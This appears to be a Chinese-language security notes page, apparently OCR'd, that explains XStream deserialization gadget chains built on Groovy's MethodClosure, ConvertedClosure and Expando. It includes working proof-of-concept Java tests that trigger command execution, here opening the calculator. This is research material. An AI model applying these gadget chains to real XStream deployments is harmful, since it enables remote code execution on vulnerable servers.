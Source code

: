 ```java
MethodClosure mc = new MethodClosure("open -a calculator.app", "execute");
mc.call()
```

Groovy1链用的就是这种，恰好是无参数的触发。

###### [](#ConvertedClosure "ConvertedClosure")ConvertedClosure

```java
@Test
public void GroovyExpando() throws Exception {
    Runtime runtime = Runtime.getRuntime();
    MethodClosure mc = new MethodClosure(runtime, "exec");
    ConvertedClosure handler = new ConvertedClosure((Closure) mc, "compareTo");
    Object map = Proxy.newProxyInstance(
            GroovyConvertedClosure.class.getClassLoader(),
            new Class<?>[]{Comparable.class}, handler);
    TreeSet ts = PayloadHelper.makeTreeSet("open -a calculator.app", map);
    XStream xStream = new XStream();
    String xml = xStream.toXML(ts);
    System.out.println(xml);
    
    xStream.fromXML(xml);
}
```

##### [](#3-Groovy-Expando "3. Groovy Expando")3\. Groovy Expando

> 前面用到了TreeSet的方式，这里我们去使用Map的类型来触发。以Map的类型来触发，那就是找可以利用的hashCode函数

> groovy.util.Expando#hashCode

师傅的思路是从寻找hashCode，往上回溯

1.  groovy.util.Expando#hashCode 执行了closure.call()，其中closure来源为属性expandoProperties
2.  TreemapConverter 每次插入obj的时候，都会执行obj.hashCode

思路很简单，poc如下

```java
@Test
public void GroovyExpando1() throws Exception {
    MethodClosure mc = new MethodClosure("open -a calculator.app", "execute");
    Expando exp = new Expando();
    exp.setProperty("hashCode",mc);

    HashMap tp = PayloadHelper.makeMap("foo",exp);

    XStream xStream = new XStream();
    String xml = xStream.toXML(tp);
    System.out.println(xml);
    xStream.fromXML(xml);
}
```
